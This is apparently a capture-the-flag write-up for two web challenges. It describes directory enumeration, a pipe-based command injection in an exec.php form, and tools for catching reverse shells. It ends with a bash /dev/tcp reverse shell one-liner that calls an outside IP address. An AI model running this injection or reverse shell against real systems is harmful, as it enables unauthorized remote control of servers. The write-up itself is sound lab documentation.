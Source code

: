 ## Tools
(that are not mentioned in the write ups)

- Reverse shell generator: [revshells.com](revshells.com)
- Remote port forwarding: [portmap.io](portmap.io)
	- Allow to get a reverse shell without having to open a port at home.
	- It generates an OpenVPN config that will forward an outside port of the VPN to a port inside (to my computer).

## WebApp

### Execute_1

I solved this challenge by solving **Execute_2** (see below).

The flag is located at /FLAG.txt.

### Execute_2

The website is greeting us with a `403 Forbidden`.
We can see: `Apache/2.4.41 (Ubuntu) Server at localhost Port 8000`.
It could be useful later.

I started by running [feroxbuster](https://github.com/epi052/feroxbuster) to find any resources that I can access. I used the wordlist `Discovery/Web-Content/raft-medium-directories.txt` from [seclists](https://github.com/danielmiessler/SecLists).

I found `/app1/`.

On this page, we have a textbox to input a command and a submit button. If we input any word like "test" or "ls", we get the output of a `php -v` command from `/exec.php`. But the input doesn't seems to change anything.

At this time, I wasn't sure if we had to inject PHP commands to be executed by the PHP CLI or if we had to inject bash commands.

I tried injecting bash commands with `;` and `&&` without success.
I tried injecting PHP commands thinking they would be appended to  `php -v` like `-r phpinfo();` to execute `php -v -r phpinfo();` without success.

If we input "<" or ">", we get nothing. Only an empty `<pre></pre>`.

I thought it could be a parsing error but the only other special character that gave me no result was `pipe |`.

So it's not a parsing error, it's just redirecting the output.

I tried with `| ls` and bingo! We can inject bash commands!

The flag is in `FLAg.txt` in the current directory (`/var/www/html/app1/`).

Then I found the flag of **Execute_1** in `/var/www/html/FLAG.txt`.

I also got a reverse shell using `bash` and `/dev/tcp` since netcat is not installed:
```bash
/bin/bash -i >& /dev/tcp/193.161.193.99/24193 0>&1
```
